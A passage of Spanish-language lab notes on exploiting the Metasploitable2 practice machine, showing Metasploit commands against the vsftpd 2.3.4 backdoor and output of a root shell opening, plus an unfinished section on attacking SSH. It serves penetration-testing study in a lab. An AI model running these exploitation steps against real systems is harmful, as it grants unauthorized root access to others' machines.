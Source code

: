 6. Set RHOSTS
```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set rhosts 10.0.200.5
rhosts => 10.0.200.5
msf6 exploit(unix/ftp/vsftpd_234_backdoor) >
```

Luego, para revisar que haya sido configurado correctamente, se ejecuta nuevamente `show options`
```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options
```

7. Ejecutar el comando `exploit`
```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit
```

También se puede ejecutar el comando `run`
```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run
```

La salida es la siguiente
```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit
  
[*] 10.0.200.5:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.0.200.5:21 - USER: 331 Please specify the password.
[+] 10.0.200.5:21 - Backdoor service has been spawned, handling...
[+] 10.0.200.5:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (10.0.200.4:40613 -> 10.0.200.5:6200) at 2023-07-30 15:37:23 -0400
```

Una vez que ha encontrado una shell en la máquina víctima, se pueden ejecutar comandos, por ejemplo `ifconfig eth0`, `whoami`, `ls`, etc

---
## 6. Atacar el servicio ssh (port22) usando searchsploit y metasploit

>[!info] Más información: 
> - https://www.youtube.com/watch?v=XalbmfxFie4&list=PLEAkrOvgdk5RnMOqvQmMeAHl6UFJNiUcs&index=6&pp=iAQB
> 


![](https://www.youtube.com/watch?v=r1Z7SxewjhM&list=PLxTwjzMO9Zf589vKfMm_MPHvx20soRiC8&index=12)


Sabemos que la versión de ssh de Metasploit2 es `___`

1. Consultar a searchsploit por el servicio y versión de la víctima.

>[!danger] Falta continuar!!!



---



